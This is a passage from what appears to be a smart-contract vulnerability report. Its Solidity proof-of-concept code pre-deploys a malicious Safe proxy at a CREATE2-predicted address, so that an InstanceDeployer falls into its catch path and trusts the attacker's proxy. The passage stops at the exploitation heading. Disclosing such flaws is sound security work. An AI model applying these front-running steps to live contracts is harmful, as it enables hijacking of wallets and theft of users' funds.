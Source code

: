 #### **4.1. Deploying MaliciousSafeProxy**

The attacker pre-deploys a `MaliciousSafeProxy` at the predicted address using the same `creationSalt`:

```solidity
bytes32 salt = keccak256(
    abi.encodePacked(keccak256(safeInitdata), creationSalt)
);
maliciousProxy = new MaliciousSafeProxy{salt: bytes32(salt)}(address(safeProxyLogic));
```

**Explanation:**

- **Salt Calculation:** Mirrors the salt used in the legitimate deployment to ensure the proxy is deployed at the expected address.
- **Deployment:** Deploys the malicious proxy, which will intercept any transactions intended for the legitimate `SafeProxy`.

#### **4.2. Triggering the Vulnerability**

When `InstanceDeployer.createSystemInstance` is invoked:

```solidity
deployer.createSystemInstance(
    NewInstance({
        owners: new address[](1),
        threshold: 1,
        recoverySpells: new address[](0),
        timelockParams: DeploymentParams({
            minDelay: 1 days,
            expirationPeriod: 30 days,
            pauser: address(0),
            pauseDuration: 1 days,
            hotSigners: new address[](0),
            contractAddresses: new address[](0),
            selectors: new bytes4[](0),
            startIndexes: new uint16[](0),
            endIndexes: new uint16[](0),
            datas: new bytes[][](0),
            salt: bytes32(creationSalt)
        })
    })
);
```

**Explanation:**

- **Deployment Attempt:** Tries to deploy a new `SafeProxy` using `createProxyWithNonce`.
- **Failure Scenario:** Since the attacker has already deployed a proxy at the predicted address, the deployment fails, triggering the `catch` block.
- **Assumption:** The contract assumes the proxy exists at the calculated address without verifying its integrity.

#### **4.3. Exploiting the Compromised Proxy**
